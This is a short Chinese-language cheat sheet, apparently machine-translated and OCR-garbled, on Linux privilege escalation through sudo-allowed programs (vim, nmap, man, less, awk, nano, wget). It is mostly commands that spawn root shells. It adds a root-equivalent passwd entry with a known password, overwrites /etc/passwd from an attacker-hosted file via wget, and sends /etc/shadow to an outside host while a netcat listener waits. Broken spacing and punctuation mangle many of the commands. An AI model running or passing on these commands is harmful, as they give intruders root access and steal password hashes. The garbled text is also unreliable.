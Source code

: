 使用Vim命令
sudo vim -c’！sh’

使用Nmap命令
sudo nmap-交互式nmap>！shsh-4.1＃

注意：**nmap –interactive选项在最新的nmap**中不可用。

没有互动的最新方式

echo“ os.execute（’/ bin / sh’）”> /tmp/shell.nse && sudo nmap —script = / tmp / shell.nse

使用Man命令
sudo man man

之后按！按下并按Enter

使用less/more命令
sudo less / etc / hosts

sudo more / etc / hosts

之后按！按下并按Enter

使用awk命令
sudo awk’BEGIN {system（“ / bin / sh”）}’

使用nano命令
nano是使用此编辑器的文本编辑器，在您需要切换用户之后，您可以修改passwd文件并将用户添加为root特权。在/ etc /passwd中添加此行，以将用户添加为root特权。

touhid：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0：0：0：root：/ root：/ bin

sudo nano / etc / passwd

现在切换用户密码是：test

su touhid

使用wget命令
这种非常酷的方式要求Web服务器下载文件。这样我从没在任何地方见过。让我们解释一下。

首先将Target的/ etc / passwd文件复制到攻击者计算机。
修改文件，并在上一步中保存的密码文件中添加用户到攻击者计算机。
仅附加此行=> touhid**：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0 / 0：b：root / root：**
将passwd文件托管到使用任何Web服务器的主机。
在受害者方面。

sudo wget http://192.168.56.1:8080/passwd -O / etc / passwd

现在切换用户密码是：test

su touhid

注意：如果您要从服务器上转储文件，例如root的ssh密钥，shadow文件等。

sudo wget —post-file = / etc / shadow 192.168.56.1:8080

攻击者的设置侦听器：nc –lvp 8080

使用apache命令
但是，我们无法获得Shell和Cant编辑系统文件。
